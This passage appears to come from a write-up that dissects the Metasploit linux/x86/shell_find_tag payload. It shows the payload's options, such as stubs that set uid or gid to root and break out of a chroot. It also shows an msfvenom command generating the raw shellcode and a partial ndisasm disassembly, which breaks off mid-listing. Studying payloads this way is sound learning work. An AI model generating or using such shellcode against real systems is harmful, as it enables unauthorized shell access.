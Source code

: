     AutoRunScript                                no        A script to run automatically on session creation.
    CommandShellCleanupCommand                   no        A command to run before the session is closed
    CreateSession               true             no        Create a new session for every successful login
    InitialAutoRunScript                         no        An initial script to run on session creation (before AutoRunScript)
    MeterpreterDebugLevel       0                yes       Set debug level for meterpreter 0-3 (Default output is strerr)
    PrependChrootBreak          false            no        Prepend a stub that will break out of a chroot (includes setreuid to root)
    PrependFork                 false            no        Prepend a stub that executes: if (fork()) { exit(0); }
    PrependSetgid               false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid             false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid            false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid            false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid             false            no        Prepend a stub that executes the setreuid(0, 0) system call
    PrependSetuid               false            no        Prepend a stub that executes the setuid(0) system call
    RemoteMeterpreterDebugFile                   no        Redirect Debug Info to a Log File
    TAG                         oJ1N             yes       The four byte tag to signify the connection.
    VERBOSE                     false            no        Enable detailed status messages
    WORKSPACE                                    no        Specify the workspace for this module

Evasion options for payload/linux/x86/shell_find_tag:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
{% endhighlight %}

Convert the shellcode to NASM with ndisasm:

{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/shell_find_tag -f raw  | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 69 bytes

00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E6              mov esi,esp
00000005  6A40              push byte +0x40
00000007  B70A              mov bh,0xa
00000009  53                push ebx
0000000A  56                push esi
0000000B  53                push ebx
0000000C  89E1              mov ecx,esp
0000000E  86FB              xchg bh,bl
00000010  66FF01            inc word [ecx]
00000013  6A66              push byte +0x66
00000015  58                pop eax
00000016  CD80              int 0x80
00000018  813E58597757      cmp dword [esi],0x57775958
0000001E  75F0              jnz 0x10
00000020  5F                pop edi
00000021  89FB              mov ebx,edi
00000023  6A02              push byte +0x2